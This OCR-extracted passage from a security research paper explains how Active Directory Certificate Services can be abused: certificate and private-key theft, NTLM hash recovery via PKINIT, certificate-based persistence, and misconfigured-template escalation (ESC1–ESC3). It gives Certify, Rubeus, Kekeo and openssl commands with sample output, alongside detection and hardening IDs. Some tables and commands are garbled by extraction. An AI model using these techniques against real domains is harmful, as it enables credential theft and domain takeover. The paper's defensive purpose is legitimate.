SharpDPAPl's certificates command with the /machine flag (while elevated) will automatically elevate to SYSTEM, dump the DPAPI SYSTEM LSA secret, use this to decrypt and found machine DPAPI masterkeys, and use the key plaintexts as a lookup table to decrypt any machine certificate private keys:

| [*] Triaging System Certificates |
| --- |
| Folder : C:\ProgramData\Microsoft\Crypto\RSA\MachineKeys |
| File : 9377cea385fa1e5bf7815ee2024d0eea_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 |
| Provider GUID : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} |
| Master Key GUID : {f12f57e1-dd41-4daa-88f1-37a64034c7e9} |
| Description : CryptoAPI Private Key |
| algCrypt : CALG 3DES (keyLen 192) |
| algHash : CALG SHA (32772) |
| Salt : aa8c9e4849455660fc5fc96589f3e40e |
| HMAC : 9138559ef30fbd70808dca2c1ed02a29 |
| Unique Name : te-Machine-50500b00-fddb-4a0d-8aa6-d73404473650 |
| Thumbprint : A82ED8207DF6BC16BB65BF6A91E582263E217A4A |
| Issuer : CN=theshire-DC-CA, DC=theshire, DC=local |
| Subject |
| Valid Date : 2/22/2021 3:50:43 PM |
| Expiry Date : 2/22/2022 3:50:43 PM |
| Enhanced Key Usages: |
| Client Authentication (1.3.6.1.5.5.7.3.2) |
| Server Authentication (1.3.6.1.5.5.7.3.1) |
| [! ] Certificate can be used for client auth! |
| [*] Private key file 9377cea385fa1e5bf7815ee2024d0eea 6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered: |
| ----- BEGIN RSA PRIVATE KEY ----- |
| MIIEpAIBAAKCAQEAzRX2ipgM1t9Et4KoP4LxHVK6qfFSXqXYiojjtgtf6ifHJ+u9 |
| gBfKXlXT4R48BsCTZrycgRHi7X+zx9pkuzQbl74up+3b/xX4dn0zoikui9k2CJxH |
| tsssibOumxrE5Z7/THOD4gN5nuSZLBGBMr2pEHwXjGBnVvQgbsHtqMRaXbqsCVj5 |

Figure 26 - Triaging System Certificates with Seatbelt

Once transformed to a .pfx file, one can use the .pfx for domain authentication as that computer account if the appropriate EKU scenario is present. We will cover how to abuse these certificates in the "Machine Persistence via Certificates - PERSIST2" section.

Defensive IDs:

- Detecting Reading of DPAPI-Encrypted Keys - DETECT5
### Finding Certificate Files – THEFT4

Sometimes certificates and their private keys are just lying around on file systems, and one does not need to extract them from system stores. For example, we have seen exported certificates and their private keys in file shares, in administrators' Downloads folder, in source code repositories, and on servers' file systems (amongst many other places).

The most common type of Windows-focused certificate files we have seen are . pfx and . p12 files, with . pkcs12 sometimes showing up but less often. These are PKCS#12 formatted files, a general-use archive format for storing one or more cryptographic objects in a single file. This is the format used by Windows when exporting certificates and are usually password protected since the Windows GUI requires a password to be set.

Another common format is , pem files, which contain base64 encodings of a certificate and its associated private key. As described in the "User Certificate Theft via DPAPI – THEFT2" section, openssl can easily convert between these formats.

While the following list is not complete, other potentially interesting certificate-related file extensions are:

| .key | Contains just the private key. |
| --- | --- |
| .crt/.cer | Contains just the certificate. |
| .csr | Certificate signing request file. This does not contain certificates or |
|  | keys. |
| .jks/.keystore/.keys | Java Keystore. May contain certs + private keys used by Java |
|  | applications. |

So, what is the best way to proactively find these certificate files? Any file share mining approaches will work. For example, you can use the Seatbelt command "dir C:\ 10 \. ( p f x | pem | p 12 ) ` $ fal se" to search C:\ folder up to 10 folders deep for .pfx/.pem/.p12 files, or use its FindInterestingFiles command to search users folders for these files.

lf you find a PKCS#12 certificate file and it is password protected, you can extract a hash using pfx2john.py22 crack it using JohnTheRipper. Hashcat unfortunately does not yet support this format at the time of this paper 93.

Your next questions will probably be, "What can I use this certificate for?" Recall the from the "Background" section - these EKU OIDsª4 detail what a certificate can be used for (code signing, authentication, etc.) You can easily list EKUs for a certificate with PowerShell:

```
$CertPath = "C:\path\to\cert.pfx"
```
$CertPass = "P@ssw0rd"

$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)

$Cert.EnhancedKeyUsageList

You can also use certutil.exe to parse the . pfx with the following command:

```
certutil.exe -dump -v cert.pfx
```
One situation that one might come across if really lucky – a CA certificate file itself. How would one know? One way (of many different ways) is by correlating between the parsed .pfx file, Seatbelt information, and Certify information:


| $CertPath = "C:\temp2\CORP-CORPDC01-CA.p12" |  |
| --- | --- |
| $CertPass = "Owerty12345" |  |
| iert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass |  |
| $Cert. Thumbprint |  |
| 80CB012A35F4B493C0996BB336773F2FA136E286 |  |
| C:\> Seatbelt.exe -a CertificateThumbprints |  |
| ==== CertificateThumbprints ====== |  |
| LocalMachine\Root - CDD4EEAE6000AC7F40C3802C171E30148030C072 (Microsoft Root Certificate Author |  |
| LocalMachine\Root - 92846C76E13054E104F230517E6E504D43AB1085 (Symantec Enterprise Mobile Root fl |  |
| LocalMachine\CertificateAuthority - FEE449EE0E3965A5246F000E87FDE2A065FD89D4 (Root Agency) 12/3 |  |
| LocalMachine\CertificateAuthority - 80CB012A35F4B493C09968B336773F2FA136E286  (CORP-CORPDC01-CA) |  |
| C:\> Certify.exe find /quiet |  |
| Action: Find certificate templates |  |
|  | CA certs trusted by |
| Using LDAP filter: (&((objectclass=pKICertificateTemplate)(pkie | the current host |
| Using search bas : LDAP : //CN=Configuration, DC=CORP, DC=LOCAL |  |
| Listing info about the CA 'CORP-CORPDC01-CA' |  |
| DNS Hostname : CORPDC01.CORP.LOCAL |  |
| Name CORP-CORPDC01-CA | CA cert thumbprints |
| Flags SUPPORTS NT AUTHENTTCATTON. | from AD |
| Cert Thumbprint |  |
| Cert Serial 22009AE3D73FAFA745DC1D4077C3F998 |  |

Figure 27 – Correlating Certificates with a CA Thumbprint on the Host and AD

The section "Forging Certificates with Stolen CA Certificates - DPERSIST1" also contains other techniques to identify a CA certificate.

#### Defensive IDs:

- Use Honey Credentials DETECT6 ●
### NTLM Credential Theft via PKINIT – THEFT5

There is an additional offensive bonus that comes from certificate/PKINIT abuse – NTLM credential theft – as summarized in this @gentilkiwi tweet®:

<sup>95</sup> 


#kekeo PRELIMINARY VERSION github.com/gentilkiwi/kek... (with a kiwi icon (3) not finished, but "tgt::pac" included to get NTLM from PKINIT



Fiqure 28 - Tweet Demonstrating Mimikatz Obtaining NTLM Credentials via PKINIT

How is this happening? In MS-PKCA (Microsoft's Kerberos PKINIT technical specification) section "1.4 Relationship to Other Protocols" states96:

> "In order to support NTLM authentication [MS-NLMP] for applications connecting to network services that do not support Kerberos authentication, when PKCA is used, the KDC returns the user's NTLM one-way function (OWF) in the privilege attribute certificate (PAC) PAC CREDENTIAL INFO buffer"

So, if account authenticates and gets a TGT through PKINIT, there is a built-in "failsafe" that allows the current host to obtain our NTLM hash from the TGT to support legacy authentication. This

involves decrypting a PAC_CREDENTIAL_DATA structure that is a Network Data Representation (NDR) serialized representation of the NTLM plaintext. NDR is notoriously a giant pain to deal with outside of C/C++, but luckily for us Benjamin Delpy has already implemented this in Kekeo, with the tgt: : pac function:

| C:\Tools>kekeo.exe |  |
| --- | --- |
| kekeo 2.1 (x64) built on Jul 18 2020 22:46:28 |  |
| ('>- 1 | "A La Vie, A L'Amour" |
| K | /水 家 家 |
| Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) |  |
| LV (oe.eo) |  |
| with 10 modules * * * / |  |
| kekeo # tgt::pac /caname:theshire-DC-CA /subject:harmj0y /castore:current user /domain:theshire.local |  |
| Realm | : theshire.local (theshire) |
| User | : harmj0y@theshire.local (harmj0y) |
| CName | : harmj0y@theshire.local [KRB NT ENTERPRISE PRINCIPAL (10)] |
| SName | : krbtgt/theshire.local [KRB NT SRV INST (2)] |
| Need PAC : Yes |  |
| Auth mode : RSA |  |
| [kdc] name: dc.theshire.local (auto) |  |
| [kdc] addr: 192.168.50.100 (auto) |  |
| *** Validation Informations *** |  |
| LogonTime | 01d7149d1e300fec - 3/8/2021 8:31:47 PM |
| LogoffTime | 7fffffffffffffffff - |
| KickOffTime | 7fffffffffffffffffff - |
| PasswordLastSet | 01d51743cbca1bae - 5/30/2019 4:00:02 PM |
| PasswordCanChange | 01d5180cf633dbae - 5/31/2019 4:00:02 PM |
| PasswordMustChange | 7fffffffffffffffff - |
| EffectiveName | harmj0y |
| FullName | harmjey |
| LogonScript |  |
| ProfilePath |  |
| HomeDirectory |  |
| HomeDirectoryDrive |  |
| LogonCount | 1965 |
| BadPasswordCount | 0 |
| UserId | 00000450 (1104) |
| PrimaryGroupId | 00000201 (513) |

Figure 29 – PKINIT to NTLM with Kekeo

| LastSuccessfulILogon | 00000000000000000 |
| --- | --- |
| LastFailedILogon | 00000000000000000 |
| FailedILogonCount | 00000000 (0) |
| SidCount | 1 |
| ExtraSids |  |
| 5-1-18-1 |  |
| ResourceGroupDomainSid S-1-5-21-937929760-3187473010-80948926 |  |
| ResourceGroupCount | 1 |
| ResourceGroupIds | 572. |
| ** Credential information *** |  |
| [0] NTLM |  |
| NTLM: 2b576acbe |  |
| *** Client name and ticket information *** |  |
| ClientId 01d7149d23935c80 - 3/8/2021 8:31:57 PM |  |
| Client | harmj0y@theshire.local |
| *** UPN and DNS information *** |  |
| UPN | harmj0y@theshire.local |
| DnsDomainName THESHIRE.LOCAL |  |
| Flags | 0000000000 (0) |

Figure 30 – PKINIT to NTLM with Kekeo

Kekeo's implementation will also work with smartcard-protected certs that are currently plugged in if you can recover the pin®?. Other parties are currently integrating this functionality into Rubeus.

Putting this together with stealing an AD CA's root certificate, we can forge a certificate for any active user or computer and use this to get their current NTLM plaintext.

#### Defensive IDs:

- Monitor Certificate Authentication Events - DETECT2
	- o Monitor for Kerberos authentication via PKINIT, since the NTLM hash is only returned when PKINIT is used

## Account Persistence

### Active User Credential Theft via Certificates – PERSIST1

If an enterprise CA exists, a user can request a cert for any template available to them for enrollment. The goal, in the context of user credential theft, is to request a certificate for a template that allows authentication to AD as that user. That is, a template that has the following properties:

- Published for enrollment.
- Domain Users (or another group the victim user is a member of) are allowed to enroll.
- Has any of the following EKUs which enable (at a minimum) domain authentication: ●
	- 0 Smart Card Logon (1.3.6.1.4.1.311.20.2.2)
	- Client Authentication (1.3.6.1.5.5.7.3.2) O
	- O PKINIT Client Authentication (1.3.6.1.5.2.3.4)
	- Any Purpose EKU (2.5.29.37.0) O
	- No EKU set. i.e., this is a (subordinate) CA certificate. O
- Does not require manager approval or "authorized signatures" issuance requirements. ●

Luckily, there is a stock published template that allows just this, the User template. However, while this template is default for AD CS, some environments may disable it. How can one go about finding certificate templates available for enrollment?

Certify.coversthissituation again the Certify.exe find /clientauth command will query LDAP for available templates that match the above criteria:

| [*] Available Certificates Templates : |  |  |
| --- | --- | --- |
| CA Name | : dc.theshire.local\theshire-DC-CA |  |
| Template Name | : User |  |
| Validity Period | : 1 year |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Certificates-Name-Flag |  | : SUBJECT ALT REQUIRE UPN, SUBJECT ALT REQUIRE EMAIL, SUBJECT REQUIRE EMAIL, SUBJECT REQUIRE DIRECTORY PATH |
| mspki-enrollment-flag | : INCLUDE SYMMETRIC ALGORITHMS, PUBLISH TO DS, AUTO ENROLLMENT |  |
| Authorized Signatures Required : 0 |  |  |
| pkiextendedkeyusage | : Client Authentication, Encrypting File System, Secure Email |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Domain Users | S-1-5-21-937929760-3187473010-80948926-513 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| Object Control Permissions |  |  |
| Owner | : THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteOwner Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteDacl Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteProperty Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |

Figure 31 - Enumerating Certificate Templates with Certify

As seen above, the User template is present and matches the criteria. The default User template issues certificates that are valid for a year, but we have seen often seen custom templates used that increase the expiration length. As a reminder, if an attacker maliciously enrolls in this type of template, the certificate can be used for authentication as that user as long as the certificate is valid, even if the user changes their password!

Sidenote: For any vulnerable templates found, one thing to pay close attention to are the "Enrollment Principals". As mentioned in the "Enrollment Rights and Protocols" section, for published templates there is a special Certificate-Enrollment extended right that defines the principals allowed to enroll in the certificate. Certify's find command will enumerate these principals, along with ACL information for the template. An attacker just needs control of a principal that has the right to enroll in the template.

If we have GUI access to a host, we can manually request a certificate through certmgr.msc or via the command-line with certreq. exe. To enroll the current user context in a new certificate template using Certify, run Certify.exe request /ca:CA-SERVER\CA-NAME /template:TEMPLATE-NAME:



Figure 32 - Requesting a Certificate Enrollment with Certify

The result will be a certificate + private key . pem formatted block of text. You can transform this into a .pfx compatible with Rubeus using the previously discussed command openss1 pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

One can then upload the . pfx to a target and use it with Rubeus to request a TGT for the enrolled user, for as long as the certificate is valid (remember, the default certificate lifetime is one year):



Figure 33 - Using Rubeus to Request a User TGT with a Certificate

Since certificates are an independent primary authentication credential, this certificate will still be usable even if the user resets their password! Combined with the technique outlined in the "NTLM Credential Theft via PKINIT – THEFT5" section, an attacker can also persistently obtain the account's NTLM hash, which the attacker could use to authenticate via pass-the-hash or crack to obtain the plaintext password. Overall, this is an alternative method of long-term credential theft that does not touch LSASS and is possible from a non-elevated context!

#### Defensive IDs:

- Monitor User/Machine Certificate Enrollments DETECT1 o
- Monitor Certificate Authentication Events - DETECT2

### Machine Persistence via Certificates - PERSIST2

Machine accounts are just slightly special types of user accounts. If a certificate template matched the requirements from the User template but instead allowed for Domain Computers as enrollment principals, an attacker could enroll a compromised system's machine account. The default Machine template matches all those characteristics:

| CA Name | : dc.theshire.local\theshire-DC-CA |  |
| --- | --- | --- |
| Template Name | : Machine |  |
| Validity Period | : 1 year |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Certificates-Name-Flag | : SUBJECT ALT REQUIRE DNS, SUBJECT REQUIRE DNS AS CN |  |
| mspki-enrollment-flag | : AUTO ENROLLMENT |  |
| Authorized Signatures Required | : 0 |  |
| pkiextendedkeyusage | : Client Authentication, Server Authentication |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Domain Computers | S-1-5-21-937929760-3187473010-80948926-515 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| Object Control Permissions |  |  |
| Owner | : THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteOwner Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteDacl Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| WriteProperty Principals | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |

Figure 34 – Certify Showing that Domain Computers Have Access to the Machines Template

If an attacker elevates privileges on compromised system, the attacker can use the SYSTEM account to enroll in certificate templates that grant enrollment privileges to machine accounts. Certify accomplishes this with its /machine argument when requesting a certificate, causing it to auto-elevate to SYSTEM and then enroll in a certificate template:



Figure 35 - Using Certify to Request a Certificate, Authenticating as the Machine Account

With access to a machine account certificate, the attacker can then authenticate to Kerberos as the machine account. Using S4U2Self, an attacker can then obtain a Kerberos service ticket to any service on the host (e.g., CIFS, HTTP, RPCSS, etc.) as any user. Elad Shamir's excellent post³8 about Kerberos delegation attacks detailed this attack scenario.

Ultimately, this gives an attack a machine persistence method that lasts as long as the certificate is valid (for the default Machine template, that means one year). This persistence mechanism continues working even after the system changes its password (default of every 30 days), will survive a system wipe (assuming the same machine account name is used after the wipe), and does not require changing anything on the host OS itself!

#### Defensive IDs:

- Monitor User/Machine Certificate Enrollments - DETECT1
- Monitor Certificate Authentication Events - DETECT2

## Account Persistence via Certificate Renewal - PERSIST3

Certificate templates have a "Validity Period" which determines how long an issued certificate can be used, as well as a "Renewal period" (usually 6 weeks). This is a window of time before the certificate expires where an account can renew it from the issuing certificate authority. While this happens automatically for auto-enrolled certificates®, normal accounts can do this manually as well.

If an attacker compromises a certificate capable of domain authentication through theft or malicious enrollment, the attacker can authenticate to AD for the duration of the certificate's validity period. The attacker, however, can renew the certificate before expiration. This can function as an extended persistence approach that prevents additional ticket enrollments from being requested, which can leave artifacts on the CA server itself.

#### Defensive IDs: NONE

# Domain Escalation

By this point you probably realize that certificates and PKI, especially in AD, are not simple. This is an area that not that many people (including us, until recently) have sought to understand from

a security perspective. While there is not anything inherently insecure about AD CS, like with any system that hasn't had a huge amount of scrutiny, it's easy for organizations to misconfigure it in a way that seriously affects the security of their environment.

# Misconfigured Certificate Templates - ESC1

There is a specific set of settings for certificate templates that makes them extremely vulnerable. As in regular-domain-user-to-domain-admin vulnerable. The first scenario (ESC1) that results in this vulnerable configuration is as follows:

- The Enterprise CA grants low-privileged users enrollment rights. The Enterprise CA's configuration must permit low-privileged users the ability to request certificates. See the "Enrollment Rights and Protocols" section at the beginning of this paper for more details.
- Manager approval is disabled. This setting necessitates that a user with CA "manager" . permissions review and approve the requested certificate before the certificate is issued. See the "Manager Approval" section at the beginning of this paper for more details.
- No authorized signatures are required. This setting requires any CSR to be signed by an existing authorized certificate. See the "Enrollment Agents, Authorized Signatures, and Application Policies" section at the beginning of this paper for more details.
- An overly permissive certificate template security descriptor grants certificate . enrollment rights to low-privileged users. Having certificate enrollment rights allows a low-privileged attacker to request and obtain a certificate based on the template. Enrollment Rights are granted via the certificate template AD object's security descriptor. In the discretionary access control list (DACL), the following access control entry (ACE) configurations permit enrollment:

In the Certificate Templates Console MMC snap-in, permissions are set under the template's properties → Security:

| VulnerableCertTemplate Properties |  | ? |  |
| --- | --- | --- | --- |
| General Compatibility Request Handling | Cryptography |  | Key Attestation |
| Subject Name | Issuance Requirements |  |  |
| Superseded Templates Extensions | Security |  | Server |
| Group or user names: |  |  |  |
| Authenticated Users |  |  |  |
| Domain Admins (CORP\Domain Admins) |  |  |  |
| Domain Users (CORPIDomain Users) |  |  |  |
| Enterprise Admins (CORP\Enterprise Admins) |  |  |  |
| Add ... |  | Remove |  |
| Permissions for Domain Users | Allow | Deny |  |
| Full Control |  |  |  |
| Read |  |  |  |
| Write |  |  |  |
| Enroll |  |  |  |
| Autoenroll |  |  |  |
| For special permissions or advanced settings, click Advanced. |  | Advanced |  |

Figure 36 - Setting a Certificate Template Security Settings

- The certificate template defines EKUs that enable authentication. Applicable EKUs ● include Client Authentication (OID 1.3.6.1.5.5.7.3.2), PKINIT Client Authentication (1.3.6.1.5.2.3.4), Smart Card Logon (OID 1.3.6.1.4.1.311.20.2.2), Any Purpose (OID 2.5.29.37.0), or no EKU (SubCA). The certificate template's AD object specifies the EKUs in its pKIExtendedKeyUsage property, which is an array of strings specifying the OIDs of the enabled EKUs. In the Certificate Templates Console MMC snap-in, EKUs are set under the template's properties → Extensions → Application Policies:


Figure 37 – Setting EKUs under Application Policies

- The certificate template allows requesters to specify a subjectAltName in the CSR. Recall ● that during AD authentication, AD will use the identity specified by a certificate's subjectAltName (SAN) field if it is present. Consequently, if a requester can specify the SAN in a CSR, the requester can request a certificate as anyone (e.g., a domain admin user). The certificate template's AD object specifies if the requester can specify the SAN in its mspki-certificate-name-flag property. The mspki-certificate-name-flag property is a bitmask and if the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag is present, a requester can specify the SAN. In the Certificate Templates Console MMC snap-in, this value is set under a template's properties → Subject Name → Supply in request:


Figure 38 - Supply in Request Configuration

These settings allow a low-privileged user to request a certificate with an arbitrary SAN, allowing the low-privileged user to authenticate as any principal in the domain via Kerberos or SChannel.

The ability to specify a SAN is the crux of this misconfiguration. This is often enabled, for example, to allow products or deployment services to generate HTTPS certificates or host certificates on the fly. It is also enabled simply because IT administrators setting up PKI are unaware of its implications. In the Certificates Templates Console MMC snap-in, if administrators enable the "Supply in request" option, a warning does appear:



Figure 39 - Supply in Request Setting Warning

However, if an administrator is unfamiliar with PKI, they very likely could click through this warning as they are battling to get things working. Duplicating a template that already exhibits the vulnerable settings also does not result in a warning. In addition, we suspect that when IT administrators create their own certificate templates, they may duplicate the default WebServer that comes with AD CS. The WebServer template has template the CT FLAG ENROLLEE SUPPLIES SUBJECT flag enabled and then if IT administrators add the "Client Authentication" or "Smart Card Logon" EKUs, the vulnerable scenario occurs without a warning from the GUI.

This is not too much of a farfetched idea either as one of the first things IT administrators typically want an AD CS server for is to create HTTPS certificates. Furthermore, many applications use SSL/TLS mutual authentication, in which case IT administrators may erroneously enable the Server Authentication and Client Authentication EKUs, resulting in a vulnerable configuration. Carl Sörqvist also postulated about this scenario in a post titled "Supply in the Request Shenanigans" 100.

So taken all together, if there is a published certificate template that allows for these settings, an attacker can request a certificate as anyone in the environment, including a domain administrator (or domain controller), and use that certificate to get a legitimate TGT for said user!


In other words, this can be a domain user to domain admin escalation vector in many environments!

In our experience, this happens quite often. Let's check out an example demonstrating ESC1. Below is a vulnerable template that we enumerated using Certify.exe find /vulnerable :

| CA Name | : dc.theshire.local\theshire-DC-CA |  |
| --- | --- | --- |
| Template Name | : VulnTemplate |  |
| Validity Period | : 3 years |  |
| Renewal Period | : 6 weeks |  |
| msPKI-Certificates-Name-Flag | ENROLLEE SUPPLIES SUBJECT = |  |
| mspki-enrollment-flag | : INCLUDE SYMMETRIC ALGORITHMS, PUBLISH TO DS |  |
| Authorized Signatures Required | 0 |  |
| pkiextendedkeyusage | : Client Authentication, Encrypting File System, Secure Email |  |
| Permissions |  |  |
| Enrollment Permissions |  |  |
| Enrollment Rights | : THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Domain Users | S-1-5-21-937929760-3187473010-80948926-513 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
| Object Control Permissions |  |  |
| Owner | : THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteOwner Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteDacl Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |
| WriteProperty Principals | : NT AUTHORITY\Authenticated Users S-1-5-11 |  |
|  | THESHIRE\Domain Admins | S-1-5-21-937929760-3187473010-80948926-512 |
|  | THESHIRE\Enterprise Admins | S-1-5-21-937929760-3187473010-80948926-519 |
|  | THESHIRE\localadmin | S-1-5-21-937929760-3187473010-80948926-1000 |

Figure 40 - Enumerating Vulnerable Certificate Templates with C

Note that the certificate has the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag enabled, has the Client Authentication EKU, and grants Domain Users enrollment rights. Now we can request a certificate, from our currently unelevated context, specifying the / altname as a Domain Admin (localadmin in this case):



Figure 41 - Abusing a Vulnerable Certificate Template with Certify

After openssl transformation, this certificate lets us request a TGT as localadmin which we can then use to access the domain controller:



Figure 42 - Rubeus Building the Request

| cmd.exe (running as THESHIRE\basicuser) |  | - × |
| --- | --- | --- |
|  |  | DzIwMጎEwMzA5MDMwMjMxWqcRGA8yMDIxMDMxNjAvMDIzMVgoEBsOVEhFU8hJUkUuTE9DQUypIzAhoAMC N |
| AQKhGjAYGwZrcmJ0Z3QbDnRoZXNoaXJlLmxvY2Fs |  |  |
| [+] Ticket successfully imported! |  |  |
| ServiceName | : | krbtgt/theshire.local |
| ServiceRealm | .. | THESHIRE.LOCAL |
| UserName | .. | localadmin |
| UserRealm |  | : THESHIRE.LOCAL |
| StartTime |  | : 3/8/2021 6:02:31 PM |
| EndTime |  | : 3/8/2021 7:02:31 PM |
| RenewTill | .. | 3/15/2021 7:02:31 PM |
| Flags | .. | name canonicalize, pre authent, initial, renewable, forwardable |
| KeyType |  | : rc4 hmac |
| Base64(key) | .. | a8a3JqLsdjeLMI/fNXLigg == |
| C:\Temp>dir \\dc.theshire.local\C$ |  |  |
| Volume in drive \\dc.theshire.local\C$ has no label. |  |  |
| Volume Serial Number is A4FF-7240 |  |  |
| Directory of \\dc.theshire.local\C$ |  |  |
| 01/04/2021 | 10:43 AM | inetpub <DIR> |
| 05/30/2019 | 02:08 PM | <DIR> PerfLogs |
| 07/23/2020 | 11:01 AM | <DIR> Program Files |
| 05/30/2019 | 03:38 PM | <DIR> Program Files (x86) |
| 03/20/2020 | 11:28 AM | <DIR> RBFG |
| 03/08/2021 | 01:03 PM | <DIR> Temp |
| 03/05/2021 | 10:59 AM | <DIR> Users |
| 03/08/2021 | 05:15 PM | <DIR> Windows |
| 0 File(s) |  | 0 bytes |
| 8 Dir(s) 44,813,033,472 bytes free |  |  |

Authenticating with an Abused Certificate with Rubeus

The following LDAP query when run against the AD Forest's configuration schema can be used to enumerate certificate templates that do not require approval/signatures, that have a Client Authentication EKU, and have the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag enabled:

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-
flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-
signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextend
edkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)
(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspki-
certificate-name-flag:1.2.840.113556.1.4.804:=1))
```
#### Defensive IDs:

- Harden Certificate Template Settings PREVENT4 ●
- Enforce Strict User Mappings - PREVENT7
- Monitor User/Machine Certificate Enrollments DETECT1 ●
- Monitor Certificate Authentication Events DETECT2 ●

# Misconfigured Certificate Templates - ESC2

The second abuse scenario (ESC2) is a variation of the first. This scenario occurs under the following conditions:

- 1. The Enterprise CA grants low-privileged users enrollment rights. Details are the same as in ESC1.
- 2. Manager approval is disabled. Details are the same as in ESC1.
- 3. No authorized signatures are required. Details are the same as in ESC1.
- 4. An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users. Details are the same as in ESC1.
- 5. The certificate template defines the Any Purpose EKU or no EKU.

While templates with these EKUs can't be used to request authentication certificates as other users without the CT FLAG ENROLLEE SUPPLIES SUBJECT flag being present (i.e., ESC1), an attacker can use them to authenticate to AD as the user who requested them and these two EKUs are certainly dangerous on their own.

We were initially a bit unclear about the capabilities of the Any Purpose and subordinate CA (SubCA) EKUs, but others reached out and helped us clarify our understanding. An attacker can use a certificate with the Any Purpose EKU for (surprise!) any purpose — client authentication, server authentication, code signing, etc. In contrast, an attacker can use a certificate with no EKUs — a subordinate CA certificate — for any purpose as well but could also use it to sign new certificates. As such, using a subordinate CA certificate, an attacker could specify arbitrary EKUs or fields in the new certificates.

However, if the subordinate CA is not trusted by the NTAuthCertificates object (which it won't be by default), the attacker cannot create new certificates that will work for domain authentication. Still, the attacker can create new certificates with any EKU and arbitrary certificate values, of which there's plenty the attacker could potentially abuse (e.g., code signing, server authentication, etc.) and might have large implications for other applications in the network like SAML, AD FS, or IPSec.

We feel confident in stating that it's very bad if an attacker can obtain an Any Purpose or subordinate CA (SubCA) certificate, regardless of whether it's trusted by NTAuthCertificates or not. The following LDAP query when run against the AD Forest's configuration schema can be used to enumerate templates matching this scenario:

```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-
flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-
signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusag
e=* ) ) ) )
```
#### Defensive IDs:

- Harden Certificate Template Settings - PREVENT4
- Enforce Strict User Mappings - PREVENT7
- Monitor User/Machine Certificate Enrollments - DETECT1
- Monitor Certificate Authentication Events - DETECT2

## Misconfigured Enrollment Agent Templates - ESC3

The third abuse scenario (ESC3) is like ESC1 and ESC2 but abuses a different EKU and requires an additional step for abuse. Please see the "Enrollment Agents, Authorized Signatures, and Application Policies" section for the necessary background information for this section.

The Certificate Request Agent EKU (OID 1.3.6.1.4.1.311.20.2.1), known as Enrollment Agent in Microsoft documentation102, allows a principal to enroll for a certificate on behalf of another user. "Enroll for someone else, isn't that a security issue?" some may ask. However, this is a common scenario as described by Microsoft's documentation. Imagine a smart card user visiting an IT administrator in-person for verification, and that administrator then needs to submit a certificate request in behalf that user.

